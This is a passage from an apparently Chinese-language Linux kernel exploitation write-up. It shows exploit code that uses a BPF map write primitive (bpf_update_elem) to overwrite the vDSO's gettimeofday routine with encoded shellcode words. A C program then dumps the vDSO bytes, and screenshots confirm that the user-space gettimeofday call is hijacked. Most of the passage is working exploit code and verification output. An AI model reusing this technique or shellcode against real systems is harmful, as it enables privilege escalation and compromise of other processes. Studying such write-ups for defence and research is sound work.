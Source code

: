 ```
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*28);
exp_buf[0] = 0x9dd0bb48-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*29);
exp_buf[0] = 0x8cd09196-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*30);
exp_buf[0] = 0xf748ff97-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*31);
exp_buf[0] = 0x894853d3-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*32);
exp_buf[0] = 0x485750e7-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*33);
exp_buf[0] = 0x3148e689-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*34);
exp_buf[0] = 0x0f3bb0d2-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*35);
exp_buf[0] = 0xc0314805-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*36);
exp_buf[0] = 0x050fe7b0-1;
bpf_update_elem(0, exp_buf, exp_mapfd, vdso_addr+0x730+0x4*37);
```

为了验证是否劫持了用户空间的gettimeofday,我们采用如下程序打印用户空间的vdso中的gettimeofday函数的代码

```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/auxv.h>
#include <sys/mman.h>
int main(){
    int test;
    size_t result=0;
    unsigned long sysinfo_ehdr = getauxval(AT_SYSINFO_EHDR);
    result=memmem(sysinfo_ehdr,0x1000,"gettimeofday",12);
    printf("[+]VDSO : %p\n",sysinfo_ehdr);
    printf("[+]The offset of gettimeofday is : %x\n",result-sysinfo_ehdr);

    if (sysinfo_ehdr!=0){
        for (int i=0x730;i<0x830;i+=1){
            printf("%02x ",*(unsigned char *)(sysinfo_ehdr+i));
        }
    }
}
```

其中0x730是gettimeofday函数地址偏移

运行exp前
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704215352-cb461ab8-bdfd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704215352-cb461ab8-bdfd-1.png)
运行exp之后
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200704215453-efc211a8-bdfd-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200704215453-efc211a8-bdfd-1.png)
我们可以清楚的看到,用户空间调用的gettimeofday已经被我们劫持.而劫持后的代码正是我们在内核空间所修改的.
